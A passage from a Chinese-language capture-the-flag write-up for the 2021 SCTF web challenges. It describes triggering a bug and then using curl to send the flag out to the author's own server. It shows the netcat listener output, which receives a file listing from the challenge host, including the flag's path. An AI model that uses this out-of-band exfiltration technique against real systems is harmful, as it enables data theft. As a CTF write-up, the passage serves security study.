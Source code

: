 然后填进去：

![image-20211225205128407](2021-SCTF-Web-Writeup.assets/image-20211225205128407.png)

2次即可触发。然后curl外带出来flag就行了。

```shell
root@VM-0-6-ubuntu:~# nc -lvvp 39767
Listening on [0.0.0.0] (family 0, port 39767)
Connection from ecs-124-70-204-21.compute.hwclouds-dns.com 56688 received!
POST / HTTP/1.1
Host: 121.5.169.223:39767
User-Agent: curl/7.76.1
Accept: */*
Content-Length: 2034
Content-Type: multipart/form-data; boundary=------------------------484cb7eb09ce5048

--------------------------484cb7eb09ce5048
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

/usr/local/lib/php/build/ax_check_compile_flag.m4
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/etc/where_is_my_flag
/etc/where_is_my_flag/flag
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags
/sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags
/sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags
/sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags
/sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS22/flags
/sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags
```